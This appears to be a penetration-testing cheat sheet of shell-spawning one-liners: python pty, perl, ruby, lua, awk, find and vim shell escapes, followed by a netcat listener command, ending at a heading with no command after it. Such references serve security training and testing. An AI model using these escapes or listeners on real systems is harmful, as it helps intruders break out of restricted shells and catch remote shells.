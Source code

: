 ### Python Interactive Shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

### Basic Linux Shell

```bash
/bin/sh -i
```

### Perl Interactive Shell

```bash
perl -e 'exec "/bin/sh";'
```

### Ruby Interactive Shell

```ruby
exec "/bin/sh"
```

### Lua Interactive Shell

```lua
os.execute('/bin/sh')
```

### Awk Shell

```bash
awk 'BEGIN {system("/bin/sh")}'
```

### Find Command for Shell Spawning

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}\;'
find . -exec /bin/sh \; -quit
```

### Vim Shell Escape

```bash
vim -c ':!/bin/sh'
```


### Start netcat listener on a specified port

```bash
sudo nc -lvnp <port #>
```

### Connect to a netcat listener
